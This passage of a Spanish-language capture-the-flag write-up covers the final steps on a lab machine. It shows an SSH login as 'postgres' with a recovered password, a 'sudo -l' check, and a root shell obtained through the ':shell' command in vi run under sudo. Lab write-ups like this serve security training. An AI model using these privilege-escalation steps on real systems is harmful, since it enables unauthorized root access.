

💬 Se pidió confirmar la clave del host la primera vez (respuesta: `yes`)  

🔐 Se introdujo la contraseña encontrada: `P@ssw0rd!`

📥 **Resultado:**

- Acceso SSH conseguido correctamente como usuario `postgres`.
    
- Shell completamente interactiva.
    
- Sin restricciones como las impuestas por SQLMap o reverse shells limitadas.

### 🏁 Flag de usuario obtenida:





## 🧨 Paso 12 – Escalada de privilegios con `sudo -l`

### 🧠 Objetivo: Comprobar si el usuario actual (`postgres`) tiene privilegios de `sudo` que permitan escalar a root.

### 🔹 Comando ejecutado:

```bash
sudo -l
```

### 📌 Resultado:

- El usuario `postgres` puede ejecutar: (como root)



## 🔓 Paso 13 – Abuso de `vi` para conseguir acceso root

### 🛠️ Objetivo: Escalar privilegios a `root` usando `vi` con permisos `sudo`.

### 🔹 Comando ejecutado:

```bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```



### 🧠 Técnica usada:

Una vez dentro de `vi`, ejecutamos lo siguiente para obtener una shell como `root`:

```bash
:shell
```



### 🔥 Resultado:

- Acceso root obtenido.


## 🏁 Paso 14 – Lectura de la flag de root

### 📁 Ubicación común: `/root/root.txt`



🎉 ¡Máquina completada con éxito! Acceso root conseguido y flag capturada. ✅

